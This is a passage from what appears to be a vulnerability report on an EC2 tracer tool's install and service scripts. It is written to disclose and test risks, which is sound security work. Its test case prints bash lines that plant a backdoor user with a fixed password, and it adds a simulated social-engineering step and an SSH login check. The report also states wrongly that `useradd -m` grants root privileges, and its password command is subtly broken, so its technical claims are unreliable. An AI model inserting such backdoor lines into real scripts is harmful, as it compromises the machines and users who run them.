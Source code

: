       make && make install
      cmake -DPYTHON_CMD=python3 ..
      cd src/python
      make && make install
      ```
    - **Vulnerability Trigger:** A compromised `install-deps.sh` script could:
        1.  Replace the legitimate `git clone` command with a clone from a malicious repository containing backdoored BCC source code.
        2.  Modify the `cmake` or `make` commands or associated build files within the cloned repository to inject malicious code during the build process.
        3.  Add malicious commands directly within the `install-deps.sh` script itself, to be executed before, during, or after the dependency installations.
    - Because the script runs with root privileges, any malicious code injected through these methods will also execute with root privileges, leading to system compromise.
- **Security Test Case:**
    1.  **Setup Attacker Repository:**
        - Fork the official repository on a GitHub account controlled by the attacker.
        - Clone the forked repository to the attacker's local machine.
    2.  **Modify `install-deps.sh`:**
        - Edit the `install-deps.sh` script in the forked repository.
        - Insert malicious commands. For example, to create a backdoor user, add the following lines before the OS detection `case` statement:
          ```bash
          echo "[INFO] Adding backdoor user..."
          useradd -m -p 'backdoorpassword' backdooruser
          echo "backdooruser:backdoorpassword" | chpasswd
          ```
        - Commit and push the changes to the attacker's forked repository.
    3.  **Social Engineering (Simulated):**
        - Create a scenario to trick a test user into using the malicious script. For example, instruct the user to download the `install-deps.sh` script from the attacker's forked repository.
    4.  **Victim Execution:**
        - On a test EC2 instance, the victim user executes the modified `install-deps.sh` script as root:
          ```bash
          sudo bash install-deps.sh
          ```
    5.  **Verification of Exploit:**
        - After the script execution completes, attempt to log in to the EC2 instance using the backdoor user created in the modified script:
          ```bash
          ssh backdooruser@<EC2_INSTANCE_IP>
          ```
          using the password 'backdoorpassword'.
        - If login is successful, the vulnerability is confirmed. The backdoor user has been created with root privileges (due to useradd -m).
        - Additionally, check for other malicious effects depending on the payload injected in step 2.

### Potential for Privilege Escalation via Service Modification (`activate-tracer-service.sh`)
- **Description:**
    - A threat actor could modify the `activate-tracer-service.sh` script in a forked repository to alter the systemd service definition it creates.
    - By tricking a user into running this modified script, the attacker can change the command executed by the `imds_tracer_tool.service`.
    - This could lead to arbitrary commands being executed with root privileges when the service is started, achieving privilege escalation.
- **Impact:**
    - Privilege escalation to root on the EC2 instance.
    - The attacker can gain persistent root access by modifying the service to execute malicious code on system startup.
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**